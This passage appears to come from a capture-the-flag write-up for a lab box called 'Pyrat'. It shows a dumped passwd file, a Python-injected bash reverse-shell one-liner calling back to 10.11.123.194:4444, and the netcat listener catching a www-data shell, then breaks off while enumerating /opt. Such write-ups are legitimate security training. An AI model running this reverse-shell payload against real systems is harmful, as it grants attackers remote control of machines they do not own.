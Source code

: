 ```terminal
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postfix:x:114:119::/var/spool/postfix:/usr/sbin/nologin
```
we can see that there is a user called 'think', so let's try something similar to get a reverse shell
```terminal
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.11.123.194/4444 0>&1"') 

```
### Initial access

and in my listener we get the shell 
```terminal
$ nc -lvnp 4444                                                                       

listening on [any] 4444 ...
connect to [10.11.123.194] from (UNKNOWN) [10.10.100.37] 57628
bash: cannot set terminal process group (593): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@Pyrat:~$ pwd
pwd
/root
```
we got a shell as the www-data user in the root directory which means that the server is running in /root
now we have to find a way to get access to the user think 
after looking through the file system we are able to find a .git directory
```terminal
www-data@Pyrat:/tmp$ cd /opt
cd /opt
www-data@Pyrat:/opt$ ls
ls
dev
www-data@Pyrat:/opt$ ls -la
ls -la
total 12
```